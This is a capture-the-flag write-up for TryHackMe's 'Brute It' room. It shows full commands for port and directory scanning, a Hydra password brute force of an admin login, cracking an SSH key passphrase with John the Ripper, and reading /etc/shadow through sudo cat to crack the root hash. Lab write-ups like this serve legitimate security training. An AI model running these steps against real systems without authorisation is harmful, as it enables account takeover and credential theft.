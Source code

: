 ```yaml
---
published: true
---
```


Well hello and welcome to another writeup of a room called brute it from tryhackme. It involves :

- Brute forcing
- Hash cracking
- Privilege Escalation

![]({{site.baseurl}}/images/brute_it/room.jpg)

Room : [Brute it](https://tryhackme.com/room/bruteit)

So lets get started.

## Scanning For Open Ports

> nmap -A IPADDR

We get the following ports open :

> 22 ssh 

> 80 http

You can get the answers of the first 4 questions from the nmap scan.

So now lets hop on to the website.

![]({{site.baseurl}}/images/brute_it/site.png)

## Scanning for Web Directories

> gobuster dir -u http://IPADDR -w /usr/share/wordlists/dirb/common.txt

After scanning we get a /admin directory which has the following login page. Well we don't have the username or the password but after checking the source code we get the following comment :


> <!-- Hey john, if you do not remember, the username is admin -->

Pretty secure huh?

## Hail Hydra

Now lets bruteforce the login page with hydra 

> hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.118.163 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"

Explaination : 

```-l admin``` : Specifying the username

```-P /usr/share/wordlists/rockyou.txt``` : Specifying the password dictionary

```10.10.118.163``` : The Target IP

```http-post-form``` : The type of attack protocol

```/admin``` : The directory of the form

```user=^USER^&pass=^PASS^``` : The login response from the form

```Username or password invalid``` : The login message if the login failed

After running hydra we get the password ```xavier```. So lets log in.

![]({{site.baseurl}}/images/brute_it/john.png)

We get the RSA key and the web flag.

## John The Ripper

Now lets crack the id_rsa as it is requires a passpharse to login

> /opt/JohnTheRipper/ssh2John.py id_rsa > hash

> john hash --wordlist=/usr/share/wordlists/rockyou.txt

And we get the passpharse.

## Getting SSH

Lets try to log into ssh using john as a username as we saw that in the previous comment

![]({{site.baseurl}}/images/brute_it/sshlogin.png)

And we are in!! We get the user flag right away in john's directory.

## Privilege Escalation

Now lets look for SUIDs by running ``` sudo -l```

![]({{site.baseurl}}/images/brute_it/suid.png)

We can run ```cat``` as sudo. Looking on [GTFOBins](https://gtfobins.github.io/) I find that this will allow me to read any file. So now lets try to read the ```/etc/shadow``` file.

> LFILE=/etc/shadow                                                                                         
 sudo cat "$LFILE"

And we get the root hash. However I also found out that you can just cat the shadow file as sudo without doing the above process. After reading the hash i copied it over to my machine and used john to get the password.

> john --wordlist=/usr/share/wordlists/rockyou.txt rhash

Now lets login.

![]({{site.baseurl}}/images/brute_it/root.png)

There you go! We completed this challenge and got all the flags! This one was a web based challenge which is a category on which I suck but still it was pretty simple and straight forward. See you next time :)
